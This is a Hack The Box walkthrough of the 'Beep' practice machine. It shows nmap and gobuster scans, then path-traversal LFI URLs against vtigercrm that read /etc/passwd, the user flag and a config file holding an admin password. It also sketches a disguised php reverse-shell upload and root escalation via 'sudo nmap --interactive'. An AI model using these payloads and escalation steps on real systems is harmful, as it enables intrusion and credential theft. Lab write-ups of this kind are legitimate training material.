 # BEEP

Beep was an easy linux box that requried an interesting LFI exploit to read the user flag which lead to another lfi to read a file containing creds. There was multiple methodds for root including a simple ssh as root or spawning a reverse shell on the system and privelage escalating to root via sudo -l and exploiting nmap
> Nmap

```shell
root@kali:~/boxes/beep/# nmap -sS -A 10.10.10.7

Starting Nmap 7.50 ( https://nmap.org ) at 2018-03-03 04:36 EST
Nmap scan report for 10.10.10.7
Host is up (0.16s latency).
Not shown: 988 closed ports
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 4.3 (protocol 2.0)
| ssh-hostkey:
| 1024 ad:ee:5a:bb:69:37:fb:27:af:b8:30:72:a0:f9:6f:53 (DSA)
|_ 2048 bc:c6:73:59:13:a1:8a:4b:55:07:50:f6:65:1d:6d:0d (RSA)
25/tcp open smtp Postfix smtpd
|_smtp-commands: beep.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, ENHANCEDSTATUSCODES, 8BITMIME, DSN,
80/tcp open http Apache httpd 2.2.3
|_http-server-header: Apache/2.2.3 (CentOS)
|_http-title: Did not follow redirect to https://10.10.10.7/
110/tcp open pop3 Cyrus pop3d 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
111/tcp open rpcbind 2 (RPC #100000)
| rpcinfo:
| program version port/proto service
| 100000 2 111/tcp rpcbind
| 100000 2 111/udp rpcbind
| 100024 1 742/udp status
|_ 100024 1 745/tcp status
143/tcp open imap Cyrus imapd 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_imap-capabilities: Completed OK ATOMIC URLAUTHA0001 RIGHTS=kxte IMAP4rev1 THREAD=ORDEREDSUBJECT LITERAL+ ANNOTATEMORE LIST-SUBSCRIBED CONDSTORE UIDPLUS CATENATE BINARY MAILBOX-REFERRALS LISTEXT IDLE RENAME ID IMAP4 QUOTA X-NETSCAPE THREAD=REFERENCES SORT=MODSEQ SORT CHILDREN NAMESPACE MULTIAPPEND STARTTLS NO ACL UNSELECT
443/tcp open ssl/http Apache httpd 2.2.3 ((CentOS))
| http-robots.txt: 1 disallowed entry
|_/
|_http-server-header: Apache/2.2.3 (CentOS)
|_http-title: Elastix - Login page
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Not valid before: 2017-04-07T08:22:08
|_Not valid after: 2018-04-07T08:22:08
|_ssl-date: 2018-03-03T09:21:37+00:00; -19m56s from scanner time.
993/tcp open ssl/imap Cyrus imapd
|_imap-capabilities: CAPABILITY
995/tcp open pop3Cyrus pop3d
3306/tcp open mysql MySQL (unauthorized)
4445/tcp open upnotifyp?
10000/tcp open http MiniServ 1.570 (Webmin httpd)
|_http-server-header: MiniServ/1.570
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1). No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ). TCP/IP fingerprint:
OS:SCAN(V=7.50%E=4%D=3/3%OT=22%CT=1%CU=41868%PV=Y%DS=2%DC=T%G=Y%TM=5A9A6E1C
OS:%P=i686-pc-linux-gnu)SEQ(SP=CB%GCD=2%ISR=CD%TI=Z%CI=Z%II=I%TS=A)SEQ(SP=C
OS:B%GCD=1%ISR=CC%TI=Z%CI=Z%TS=A)OPS(O1=M54DST11NW7%O2=M54DST11NW7%O3=M54DN
OS:NT11NW7%O4=M54DST11NW7%O5=M54DST11NW7%O6=M54DST11)WIN(W1=16A0%W2=16A0%W3
OS:=16A0%W4=16A0%W5=16A0%W6=16A0)ECN(R=Y%DF=Y%T=40%W=16D0%O=M54DNNSNW7%CC=N
OS:%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=Y%DF=Y%T=40%W=16A
OS:0%S=O%A=S+%F=AS%O=M54DST11NW7%RD=0%Q=)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O
OS:=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40
OS:%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q
OS:=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y
OS:%DFI=N%T=40%CD=S)
```
Our nmap scan shows alot of information but we narrow down and try to take away the important details.

On port `80` the service `elastix` is running. It is just simply a login page for what should be htb elastix service which we will need to exploit later.

We run a gobuster scan in dir mode to check for hidden directories to help our enumeration.

```shell
root@kali:~/Desktop# gobuster -e -u https://10.10.10.7/ -t 500 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt

Gobuster v1.2 OJ Reeves (@TheColonial)
=====================================================
[+] Mode : dir
[+] Url/Domain : https://10.10.10.7/
[+] Threads : 500
[+] Wordlist : /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
[+] Status codes : 200,204,301,302,307
[+] Expanded : true
=====================================================
https://10.10.10.7/help (Status: 301)
https://10.10.10.7/modules (Status: 301)
https://10.10.10.7/themes (Status: 301)
https://10.10.10.7/lang (Status: 301)
https://10.10.10.7/static (Status: 301)
https://10.10.10.7/admin (Status: 301)
https://10.10.10.7/images (Status: 301)
https://10.10.10.7/var (Status: 301)
https://10.10.10.7/mail (Status: 301)
https://10.10.10.7/panel (Status: 301)
https://10.10.10.7/libs (Status: 301)
https://10.10.10.7/recordings (Status: 301)
https://10.10.10.7/configs (Status: 301)
https://10.10.10.7/vtigercrm (Status: 301)
```

We take a look at the `/vtingercrm` we can see that its running the `vtingercrm` service.

We search for epxloits and comme accross one on exploit-db that shows that it is an LFI and we can read the user flag an any other file with permissions for read access from the user.

> Links [https://www.exploit-db.com/exploits/18770](https://www.exploit-db.com/exploits/18770)

We use this and carry out a few commands like this:

```shell
https://localhost/vtigercrm/modules/com_vtiger_workflow/sortfieldsjson.php?module_name=../../../../../../../../etc/passwd%00
```

With this we can read the` /etc/passwd` file and it shows a user called `fanis` from here we can change the file name to try and raed the user flag.
```shell
https://localhost/vtigercrm/modules/com_vtiger_workflow/sortfieldsjson.ph
p?module_name=../../../../../../../../home/fanis/user.txt%00

And we get user on the box!

# ROOT
Now using the second LIF that we found on exploit db [https://www.exploit-db.com/exploits/37637](https://www.exploit-db.com/exploits/37637)
```shell
#LFI Exploit: /vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action
```

We do this and we read the creds for the administrator for the vtigercrm service 

```Username = admin
Password = jEhdIekWmdjE
```
From here we can simply ssh as root into the box and read the root flag. This is the first method.

I wont cover the rest fully i was do a quick brief.

For root 1 method you can login into vtiger with the creds and navigating around the website you will find an upload section where you can upload a jpg file. We can upload a php reverse shell aslong as we name it shell.php.jpg and we can change the contents in burpsuite to change the needs required, from here we set up a listener and we get a shell.

For the priv esc we run `sudo -l` shows us that we can run nmap as root. We simply run `sudo nmap --interactive` to spawn a shell with interactive mode on nmap.

Thanks for reading hpoe you enjoyed.
